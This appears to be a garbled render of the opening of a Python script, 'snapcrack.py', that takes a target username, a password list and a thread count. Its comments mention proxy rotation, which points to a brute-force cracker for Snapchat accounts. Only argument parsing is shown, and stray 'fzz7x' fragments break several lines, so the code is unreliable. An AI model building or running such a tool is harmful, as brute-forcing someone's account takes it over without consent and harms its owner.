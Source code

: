 @@ -1,28 +1,30 @@
#!/usr/bin/env python
from pysnap import *
import sys
import os
import threading
# Anxiety Notes
#
# TODO Save Password Variable - Start New Thread at Location
# COMPLETE Proxy Rotation | Multi-Threading
try:
    targetusername = sys.argv[1]
except:
    print(" [ ! | SYNTAX ERROR ] $ python3 snapcrack.py < username > < /path/to/passlist.txt > < # Threads > ")
    print(" [ ! | SYNTAX ERROR ] $ python3 snapcrack.py < username fzz7x
    > < /path/to/passlist.txt > < # Threads > ")
try:
    targetpasslist = sys.argv[2]
except:
    print(" [ ! | SYNTAX ERROR ] $ python3 snapcrack.py < username > < /path/to/passlist.txt > < # Threads > ")
try:
    tNumber = int(sys.argv[3])
except:
    print(" [ ! | SYNTAX ERROR ] $ python3 snapcrack.py < username > < /path/to/passlist.txt > < # Threads > ")
    print(" [ ! | SYNTAX ERROR ] $ python3 snapcrack.py < username > <fzz7x>
    < /path/to/passlist.txt > < # Threads > ")


os.system("clear")

